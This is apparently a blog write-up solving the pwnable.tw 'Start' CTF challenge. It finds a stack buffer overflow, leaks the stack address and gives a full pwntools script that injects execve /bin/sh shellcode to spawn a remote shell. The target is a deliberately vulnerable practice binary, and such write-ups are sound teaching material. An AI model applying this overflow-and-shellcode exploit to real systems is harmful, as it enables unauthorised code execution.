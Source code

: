 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
categories:
  - CTF
  - Pwnable.tw
published: true
subtitle: It’s the first step that counts
tags:
  - CTF - Pwnable.tw
---
```

>Start \[100 pts]  
Just a start.
>
>nc chall.pwnable.tw 10000

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file (I only use it for open IDA correctly). Now we should open disassembler like IDA Pro.

![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

We have two funcion: `_start` and `_exit`.
As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

_**`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).**_

The program lets you type 60 bytes, but it only accepts 20 bytes. Therefore, you can see maybe it has buffer overflow here.

First payload I use buffer overflow to make it returns to ROP gadget (0x08048087).

{: .box-note}
**Note:** Payload 1: "aaaaaaaaaaaaaaaaaaaa\x87\x80\x04\x08"

And then it will print out esp address in stack. Having that address, I can put the shellcode into that.
When comes the `retn;` instruction, ESP is pointing to address has 0x08048087, so next EIP is 0x08048087.

\[About shellcode] You can find shellcode at [here](http://shell-storm.org/shellcode/). For me, I use [this](http://shell-storm.org/shellcode/files/shellcode-752.php).

{: .box-note}
**Note:** Payload 2: 'A' * 20 + p32(esp_add + 20) + shellcode

If you are wondering why in payload (maybe only me, so sad) `esp_add + 20`, it's because that where shellcode is. Why is 20? The program will do this instruction: `add esp 14h`.

Source code for pwn: Run it with python.
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  esp_add = u32(esp_add[0:4])

  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)

  conn.interactive()
  conn.close()
{% endhighlight %}


{: .box-success}
Tesing Box Success
